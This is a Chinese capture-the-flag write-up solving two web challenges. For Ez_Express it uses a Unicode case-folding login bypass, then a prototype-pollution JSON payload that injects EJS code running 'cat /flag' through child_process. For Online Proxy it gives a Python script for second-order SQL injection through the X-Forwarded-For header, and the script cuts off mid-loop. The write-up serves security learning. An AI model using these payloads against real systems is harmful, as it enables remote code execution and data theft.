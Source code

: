 

# [GYCTF2020]Ez_Express

- nodejs
- 原型污染

随便注册一个进去发现www.zip泄露，下载审计

![image-20220218012132137](https://img-blog.csdnimg.cn/img_convert/570174056630b439bf1dd78183af44b2.png)



> 在Character.toUpperCase()函数中，字符ı会转变为I，字符ſ会变为S。
> 在Character.toLowerCase()函数中，字符İ会转变为i，字符K会转变为k。

所以 **admın** 即可登陆成功，/action下发现clone操作

![image-20220218013055443](https://img-blog.csdnimg.cn/img_convert/e2d3d77fc18dbc7f6cf507c2367beeed.png)

原型链污染

![image-20220218013130844](https://img-blog.csdnimg.cn/img_convert/b41de03cd7a7fea547f1cde1ab5de181.png)

可以看到在/info下，使用将outputFunctionName渲染入index中，而outputFunctionName是未定义的 **res.outputFunctionName=undefined**

那就可以向上污染outputFunctionName

payload

```
{"__proto__":{"outputFunctionName":"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag')//"},"Submit":""}
```

访问 /info 得到flag

# [RoarCTF 2019]Online Proxy

注入脚本

```python
#!/usr/bin/env python3

import requests

target = "http://localhost:8302/"

def execute_sql(sql):
    print("[*]请求语句：" + sql)
    return_result = ""

    payload = "0'|length((" + sql + "))|'0"
    session = requests.session()
    r = session.get(target, headers={'X-Forwarded-For': payload})
    r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})
    r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})
    start_pos = r.text.find("Last Ip: ")
    end_pos = r.text.find(" -->", start_pos)
    length = int(r.text[start_pos + 9: end_pos])
    print("[+]长度：" + str(length))

    for i in range(1, length + 1, 5):
        payload = "0'|conv(hex(substr((" + sql + ")," + str(i) + ",5)),16,10)|'0"

        r = session.get(target, headers={'X-Forwarded-For': payload}) # 将语句注入
        r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})    # 查询上次IP时触发二次注入
```